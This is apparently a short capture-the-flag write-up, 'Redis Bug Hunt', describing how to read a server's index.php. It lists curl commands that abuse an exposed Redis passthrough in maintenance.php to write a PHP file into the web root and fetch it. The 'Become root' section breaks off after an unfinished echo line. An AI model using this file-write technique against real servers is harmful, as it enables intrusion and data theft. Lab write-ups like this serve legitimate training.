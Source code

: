 # Redis Bug Hunt
Location: Kitchen

The objective is to retrieve the index.php file from the server.

## Approach 1: Pushing a PHP file into the Web Tree
This can be done using these commands:
```
curl http://localhost/maintenance.php?cmd=config,set,dir,/var/www/html
curl http://localhost/maintenance.php?cmd=config,set,dbfilename,m.php
curl 'http://localhost/maintenance.php?cmd=set,test,<?php%20echo%20file_get_contents("index.php");%20?>'
curl http://localhost/maintenance.php?cmd=save
curl http://localhost/m.php --output -
```

## Approach 2: Become root
```
echo "\n\n
```
<!--stackedit_data:
eyJoaXN0b3J5IjpbLTY1MjQ5MjI2NiwyODg2OTcwMTksNDc4OT
U5MjY3LDczMDk5ODExNl19
-->